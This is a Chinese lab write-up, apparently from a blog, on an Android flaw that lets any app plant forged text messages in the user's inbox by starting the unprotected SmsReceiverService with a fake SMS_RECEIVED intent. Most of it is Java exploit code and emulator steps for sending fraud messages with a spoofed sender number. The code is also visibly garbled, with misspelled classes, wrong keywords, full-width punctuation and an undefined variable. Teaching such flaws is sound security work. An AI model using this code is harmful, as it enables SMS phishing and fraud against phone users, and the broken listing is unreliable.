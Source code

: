 ```yaml
---
title: Android安全之短信欺诈漏洞
date: 2021-12-27 19:46:16
tags: 
- Android
- 短信
- 欺诈
---
```


目的：
* 通过JAVA编程理解Android手机安全漏洞的基本原理
* 用JAVA编写伪造短信代码，向系统收件箱发送伪造短信

原理：
* 漏洞原理介绍
* 该系统漏洞能够使攻击者无需申请任何权限发送短信到用户收件箱。 出现该漏洞的原因是Android系统的com.android.mms.transaction。
* SmsReceiverService系统服务未判断启动服务的调用者，攻击者可以通过该应用发送伪装短信到用户收件箱。本漏洞实质上是一种能力的泄漏。
* 漏洞发送的短信并不经过GSM网络,所以即使手机没有插sim卡,也照样可以收到短信,这让大部分的短信防火墙完全失效。

过程：

打开eclipse，点击file-import，选择android目录下的existing android code into workspace![image-20211229100046569](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100046569.png)

选择simpleedu28项目![image-20211229100118574](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100118574.png)

导入后的项目![image-20211229100200697](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100200697.png)

在工程目录res/layout的界面代码，这里可以通过控制代码，编辑相应的函数生成欺诈短信，点击activity_main.xml，可以看到界面布局的文件![image-20211229100257165](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100257165.png)

在mainactivity中添加运行欺诈短信的代码，点开`msgdemo2\src\com.example.msgdemol\mainactivity.java`![image-20211229100406295](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100406295.png)

在mainactivity的init()函数添加如下代码，为button设置监听事件

```java
//为发送按钮设置监听
sendBt.setOnClickListener(new OnClickListener(){
       @Override
       public void onClick(View v){
                       /*
                 *获取输入的伪造号码和内
                 *判断输入是否合法
*/
String num=msgNumTv.getText().toString();
String con=msgConTv.getText().toString();
If(num.length()<1||con.length()<1)
{ Toast.makeText(MainActivity.this,”电话号码或者内容没有输入”,Toast.LENGTH_SHORT).show();
return;}
//判断通过伪造短信
//make Msg(MainActivity.this,num,con);
createFakeMsg(MainActivity.this,num,con);}
});
```

在MainActivity的init()函数,跳转到init函数位置添加上一步的代码

![image-20211229101856123](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229101856123.png)createFakeMsg的具体代码

```java
/**
 *伪造短信
* @param context
@param num
* @param con
 */
          Private static void createFakeMsg(Context context,String num,String con){
                byte[] pdu=null;
                byte[] scBytes=PhoneNumberUtils.networkPortionToCalledPartyBCD(num);
                int lsmcs=scBytes.length;
                byte[] dateBytes=new byte[7];
                Calendar calendar=new GregorianCalendar();
                dateBytes[0]=reverseByte((byte)(calendar.get(Caledar.YEAR)));
                dateBytes[1]=reverseByte((byte)(calendar.get(Caledar.MONTH)+1));
                dateBytes[2]=reverseByte((byte)(calendar.get(Caledar.DAY_OF_MONTH)));
                dateBytes[3]=reverseByte((byte)(calendar.get(Caledar.HOUR_OF_DAY)));
                dateBytes[4]=reverseByte((byte)(calendar.get(Caledar.MINUTE)));
                dateBytes[5]=reverseByte((byte)(calendar.get(Caledar.SECOND)));
                dateBytes[6]=reverseByte((byte)(（calendar.get(Caledar.ZONE_OFFSET)+calendar.get(Calendar.DST_OFFSET))/(60*1000*15)）);
                try{
          // Log.d(LOG,”test one”);
                 ByteArrayOutputStream bo=new ByteArrayOutputStream();
                 bo.write(lsmcs);
                 bo.write(scBytes);
                 bo.write(0x04);
                 bo.write((byte)num.length());
                 bo.write(senderBytes);
                 bo.write(0x00);
                 bo.write(0x00);//encoding:0 for default 7bit
                 bo.write(dateBytes);
                 try{
          String sReflectedClassName=”com.android.internal.telephony.GsmAlphabet”;
          Class cRefectedNFCExtras=Class.forName(sReflectedClassName);
          Method stringToGsm7BitPacketd=cReflectedNFCExtras.getMethod(“stringToGsm7BitPacketd”,new Clas[]{String.class});
          stringToGsm7BitPacked.setAccessible(true);
          byte[] conbytes=(byte[]) stringToGsm7BitPacked.invoke(null,con);
          bo.write(conbytes);
          }catch(Exception e){e.printStackTrace();}
          pdu=bo.toByteArray();}
          catch(IOException e){e.printStackTrace();}
          Intent intent=newIntent();
          Intent.setClassName（“com.android.mms.transaction.SmsReceiverService”）;
          Intent.setAction(“android.provider.Telephony.SMS_RECEIVED”);
          Intent.putExtra(“pdus”,new Object[]{pdu});
          //intent.putExtra(“format”,”3gpp”);
          Context.startService(intent);}
          Private static byte reverseByte(byte b){
          private static byte reverseByte(byte b){
          return (byte)((b&0xf0)>>4|(b&0x0f)<<4);}
```

在已经设计好的欺诈短信发送界面，有两部分内容：伪造号码与伪造内容。这里的伪造号码，这是发件人的号码，因为是发给自己，所以没有收件人号码，。至于内容可以随意填写内容，使短信更具欺诈性。

AVD中打开虚拟机Simpleedu28虚拟安卓![image-20211229102354469](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102354469.png)

右键MSGDEMO2，选择run as-android application按钮![image-20211229102712162](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102712162.png)

虚拟端返回运行后结果![image-20211229102740838](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102740838.png)

点击发送，手机接收欺诈短信

![image-20211229102848974](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102848974.png)

